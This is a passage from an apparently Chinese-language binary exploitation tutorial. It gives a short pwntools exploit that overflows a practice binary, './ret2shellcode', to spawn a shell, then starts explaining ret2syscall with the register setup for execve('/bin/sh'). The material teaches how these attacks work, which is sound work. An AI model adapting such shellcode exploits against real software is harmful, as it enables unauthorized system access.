 <div align=center><img src="./images/20.png"></div>

`exploit`如下:

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

## ret2syscall
### 原理
`ret2syscall`, 即控制程序执行系统调用来获取`shell`. 

系统调用:
 - 操作系统提供给用户的编程接口.
 - 是提供访问操作系统所管理的底层硬件的接口.
 - 本质上是一些内核函数代码, 以规范的方式驱动硬件.
 - `x86`通过`int 0x80`指令进行系统调用、`amd64`通过`syscall`指令进行系统调用`mov eax, 0xb mov ebx, ["/bin/sh"] mov ecx, 0 mov edx, 0 int 0x80 => execve("/bin/sh",NULL,NULL)`.
